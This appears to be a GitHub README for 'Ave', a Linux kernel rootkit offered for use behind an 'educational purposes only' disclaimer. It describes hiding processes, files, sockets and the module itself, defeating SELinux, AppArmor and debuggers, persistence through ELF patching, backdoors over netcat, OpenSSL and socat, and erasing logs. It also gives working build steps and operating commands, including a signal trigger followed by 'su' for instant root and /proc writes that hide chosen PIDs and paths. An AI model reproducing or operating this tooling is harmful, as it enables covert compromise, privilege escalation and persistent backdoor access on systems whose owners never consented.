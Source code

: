 ## Overview
Ave is a loadable Linux kernel module (5.18+) capable of hiding processes, files, and connected sockets at the kernel level, plus substituting system calls and encrypting traffic. It runs on x86-64 and ARM64. In short, it’s a universal tool for stealthily concealing any objects in the system, with extra features for bypassing SELinux/AppArmor, anti-debugging, and a whole set of other functions.

*Key capabilities:*
- **Kernel-level cloaking** — removes traces from `lsmod`, `/proc`, `/sys`, `ps`, `top`, etc.  
- **File & directory hiding** — `filldir`/`filldir64` hooks suppress listings.  
- **Dynamic syscall substitution** — live patching of `read`, `kill`, `clone`. 
- **Encrypted networking** — Netfilter-based AES tunnel with signature obfuscation.  
- **Anti-debug & hardening bypass** — blocks `ptrace/strace`, skirts `RELRO/PIE/NX`.  
- **Persistence** — ELF patching & init-system hooks for auto-start.  

---

## Disclaimer
> ⚠️ **Educational & Research Purposes Only**  
> This code is provided *as is* with the explicit intention that it be studied in controlled, legal environments—such as security research labs, malware-analysis sandboxes, or coursework on kernel internals.  
>
> *You are solely responsible for any use or misuse.*  
> Deploying Ave on systems without the explicit permission of their owners **may violate local, national, and international laws**. The authors and maintainers accept **no liability** for damages, data loss, or legal consequences arising from the use of this software.  
>
> Always obtain informed, written consent before testing on any device you do not own, and comply with all relevant regulations and organizational policies.

## Installation:
### 1. Prerequisites
To build Ave, first install the packages:

```bash
sudo apt install cmake gcc g++ llvm-dev llvm-tools python3-pip qemu-system-x86 socat netcat libssl-dev
pip3 install lit
sudo ln -s ~/.local/bin/lit /usr/bin/llvm-lit
````

### 2. Building

#### Local build

1. Prepare a folder for builds:

   ```bash
   mkdir build && cd build
   cmake ../ -DCMAKE_C_COMPILER=gcc -DPROCNAME="interface_name"
   ```

2. Start the build:

   ```bash
   make
   ```

#### Cross-compilation

If you need to build for another kernel or another machine:

```bash
cmake ../ -DKERNEL_DIR=/path/to/kernel/headers -DKOVID_LINUX_VERSION=5.10 -DCMAKE_C_COMPILER=gcc
make
```

## Main Functionality:

### 1. Module masking

Ave removes itself from `lsmod`, `/sys`, and other places where the module is normally visible. In **DEPLOY** mode all this works out of the box.

### 2. Hiding files and directories

Uses the `filldir` and `filldir64` hooks:

* Everything that’s hidden vanishes from `ls`, `ps`, `top`, etc.
* No traces in standard utilities.

### 3. System calls

A mix of **Ftrace** hooks and direct editing of the system-call table:

* Dynamically updates hooks as the kernel changes.
* Replaces, for example, `read`, `kill`, `clone`, etc.

### 4. Working with the network stack

Through **netfilter** Ave controls connections and generates hidden signatures. Everything is encrypted with AES.

### 5. Bypassing kernel protections

SELinux, AppArmor, and the `relro`, `pie`, `nx` protections are bypassed, adapting to the specific system configuration.

### 6. Anti-debug

* Filters and blocks `ptrace`, `strace`, and other debuggers.
* Data in memory is encrypted to resist dumping and analysis.
* On debugging attempts the module starts substituting information.

### 7. Persistence

* Patches ELF files for autoload.
* Fixes itself in system init mechanisms so it starts at boot.

### 8. Backdoors

Choose from:

* **Netcat:** uses port knocking for remote hidden access.
* **OpenSSL:** to immediately have an encrypted channel.
* **Socat:** universal, for any socket type.

### 9. Logs

* Removes traces from `dmesg`.
* Masks TCP/UDP connections.
* Hides itself from `/proc`.

## Usage:

### Enable the /proc interface

```bash
kill -SIGCONT 31337
```

After that `/proc/interface_name` starts listening for your commands.

### Gain root

```bash
kill -SIGCONT 666
su      # automatic local privilege escalation
```

### Hide a process

```bash
echo <PID> > /proc/interface_name
```

### Hide files and folders

* In the current directory:

  ```bash
  echo hide-file=README.txt > /proc/interface_name
  ```

* By absolute path:

  ```bash
  echo hide-directory=/home/user/docs > /proc/interface_name
  ```

### Backdoors

To check which backdoors are available:

```bash
utils/bd_connect.sh
```

## Technical Details:

### Architecture

* x86-64 and ARM64 are the main focus.
* Kernels: 5.18+.
* Automatically adapts to kernel settings so hooks don’t break after updates.

### Security

* Completely removes hidden processes and connections from monitoring.
* The module blocks unloading and, if tampered with, tries to back itself up.

### Automation

* Scripts for quick build and deployment of the rootkit.
* Key generation for encrypted channels.
* Modular infection machinery for ELF files autoconnect.

## Testing:

Tested on:

* **Debian 12.8 (Bookworm):** kernel 6.1.0-10-amd64 (LTS).
* **Ubuntu 22.04.3 LTS:** kernel 5.19.0-32-generic (HWE).
* **Ubuntu 23.10:** kernel 6.5.0-25-generic.

### Running tests

1. Local tests:

   ```bash
   make check-ave -j1
   ```

2. Cross-tests:

   ```bash
   cmake ../ -DKERNEL_DIR=/path/to/kernel/headers -DCROSS_TESTS=ON
   make check-ave
   ```



